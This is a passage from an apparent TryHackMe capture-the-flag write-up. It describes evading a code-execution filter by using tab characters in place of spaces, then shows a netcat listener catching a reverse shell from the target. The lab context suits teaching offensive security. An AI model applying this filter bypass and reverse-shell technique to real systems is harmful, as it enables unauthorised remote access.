 ### Looking at the source of the page
```html
    <script>
        // Let the tab key work :)

        var textareas = document.getElementsByTagName('textarea');
        var count = textareas.length;
        for(var i=0;i<count;i++){
            textareas[i].onkeydown = function(e){
                if(e.keyCode==9 || e.which==9){
                    e.preventDefault();
                    var s = this.selectionStart;
                    this.value = this.value.substring(0,this.selectionStart) + "\t" + this.value.substring(this.selectionEnd);
                    this.selectionEnd = s+1; 
                }
            }
        }
    </script>
```
There is a comment which says it is okay to use tab key, which means the space key might have triggered the firewall. So, I tried to import the modules using tab instead of space.

![7](/assets/images/thm/python-playground/7.png)
And this time the response was not obtained on the browser which is a good sign and if we check the netcat listener, we get a shell.
```console
local@local:~/Documents/tryhackme/python_playground$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.185.134 39688
/bin/sh: 0: can't access tty; job control turned off
# 

```
Now this shell is a bit hard to work with as it is not interactive. It lacks using arrow keys, autocompletion, and using keys like CTRL+C to kill a process. So We have to make this session a interactive session.
